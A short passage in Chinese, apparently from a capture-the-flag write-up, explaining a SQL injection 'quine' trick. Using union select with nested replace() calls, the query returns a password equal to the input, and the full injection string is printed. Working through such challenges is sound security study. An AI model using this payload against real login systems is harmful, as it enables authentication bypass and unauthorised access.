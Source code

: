  ![](attachments/3e9d3b50-f855-4a20-886c-3441778ed7a2.png)

回到题目，为了让查询结果中的 password 字段和输入的 password 一致，可以使用 union select 关键字：

```sql
1' union select 【Quine表达式】#
```

代入表达式：

```sql
1' union select replace(replace('1" union select replace(replace(".",char(34),char(39)),char(46),".")#',char(34),char(39)),char(46),'1" union select replace(replace(".",char(34),char(39)),char(46),".")#')#
```

 ![](attachments/cb9c0d66-4b25-4250-b25c-5445bc4cd22b.png)
